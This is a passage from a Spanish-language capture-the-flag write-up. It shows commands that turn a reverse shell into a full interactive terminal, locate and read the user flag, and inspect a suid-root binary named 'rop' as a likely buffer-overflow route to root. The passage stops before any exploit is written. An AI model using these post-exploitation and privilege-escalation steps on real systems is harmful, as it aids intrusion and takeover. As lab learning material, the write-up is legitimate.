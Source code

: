 ```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```


Aqui ya miramos si podemos leer la flag

```bash
cd /home
find \-name user.txt 2>/dev/null
find \-name user.txt 2>/dev/null | xargs cat
```

Ya podemos ver la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /home/ayush
ls -la
```

Aqui vemos un directorio turbio donde nosotros como el usuario **www-data** tenemos derechos

```bash
cd ./binary
ls -la
```

Aqui vemos un fichero 
```bash
 rop 
```
 que tiene derechos suid como el usuario root. y como se llama rop pensamos directamente a un BufferOverflow

```bash
./rop

[*] Usage: program <message>


./rop EEEEEE

[*] Message sent: EEEEEE
```

Aqui vamos a usar python y ver si hay un BOF
